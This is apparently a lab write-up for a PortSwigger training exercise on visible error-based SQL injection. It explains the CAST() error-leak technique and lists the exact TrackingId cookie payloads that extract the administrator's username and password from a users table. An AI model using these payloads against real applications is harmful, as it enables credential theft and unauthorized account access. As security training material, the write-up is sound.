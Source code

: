 ## Visible error-based SQL injection

**Title:** Visible error-based SQL injection. [GO](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

**Description:** This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned. The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.

## Preface

Misconfiguration of the database sometimes results in verbose error messages. These can provide information that may be useful to an attacker. For example, consider the following error message, which occurs after injecting a single quote into an id parameter:
`Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`
This shows the full query that the application constructed using our input. We can see that in this case, we're injecting into a single-quoted string inside a `WHERE` statement. This makes it easier to construct a valid query containing a malicious payload. Commenting out the rest of the query would prevent the superfluous single-quote from breaking the syntax. Occasionally, you may be able to induce the application to generate an error message that contains some of the data that is returned by the query. This effectively turns an otherwise blind SQL injection vulnerability into a visible one. You can use the `CAST()` function to achieve this. It enables you to convert one data type to another. For example, imagine a query containing the following statement: `CAST((SELECT example_column FROM example_table) AS int)`
Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an `int`, may cause an error similar to the following: `ERROR: invalid input syntax for type integer: "Example data"`
This type of query may also be useful if a character limit prevents you from triggering conditional responses.

## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. In the context of this shopping application, we are particularly interested in the `TrackingId` cookie parameter , where the backend logic is designed to query the submitted data.

### My thought

Appending a single quote to the value of our `TrackingId` cookie and send the request. `TrackingId=MGWHiOYdaQ9T8rLI'`. In the response, notice the verbose error message. This discloses the full SQL query, including the value of our cookie. It also explains that we have an unclosed string literal. Observe that our injection appears inside a single-quoted string. In the request, add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error: `TrackingId=MGWHiOYdaQ9T8rLI'--`. Send the request. Confirm that you no longer receive an error. This suggests that the query is now syntactically valid.

![poc_visible_sql_error.png](../images/visible_sql_error.png)

![poc_no_error.png](../images/no_error.png)

Adapt the query to include a generic SELECT subquery and cast the returned value to an `int` data type: `TrackingId=MGWHiOYdaQ9T8rLI' AND CAST((SELECT 1) AS int)--`. Send the request. Observe that now we get a different error saying that an `AND must be a type boolean, not type integer`.

![poc_AND_must_be_boolean_type.png](../images/AND_must_be_boolean_type.png)

Modify the condition accordingly. For example, we can simply add a comparison operator (=) as follows: `TrackingId=MGWHiOYdaQ9T8rLI' AND 1=CAST((SELECT 1) AS int)--`. Send the request. Confirm that you no longer receive an error. This suggests that this is a valid query again.

![poc_AND_must_be_boolean_type_no_error.png](../images/AND_must_be_boolean_type_no_error.png)

Adapt our generic `SELECT` statement so that it retrieves usernames from the database: `TrackingId=MGWHiOYdaQ9T8rLI' AND 1=CAST((SELECT username FROM users) AS int)--`. Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.

![poc_limit_1_error.png](../images/limit_1_error.png)

Delete the original value of the `TrackingId` cookie to free up some additional characters. Resend the request. `TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`. Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row. Modify the query to return only one row: `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`. Send the request. Observe that the error message now leaks the first username from the users table: `ERROR: invalid input syntax for type integer: "administrator"`

![poc_administrator_user.png](../images/administrator_user.png)

Now that you know that the administrator is the first user in the table, modify the query once again to leak their password: `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`.

![poc_password.png](../images/password.png)

**Summary:**
1. Confirmation of vulnerability with `TrackingId=MGWHiOYdaQ9T8rLI'`, `TrackingId=MGWHiOYdaQ9T8rLI'--`.
 
2. Confirmation of `administrator` user with `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`.

3.  Password enumeration with `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`.
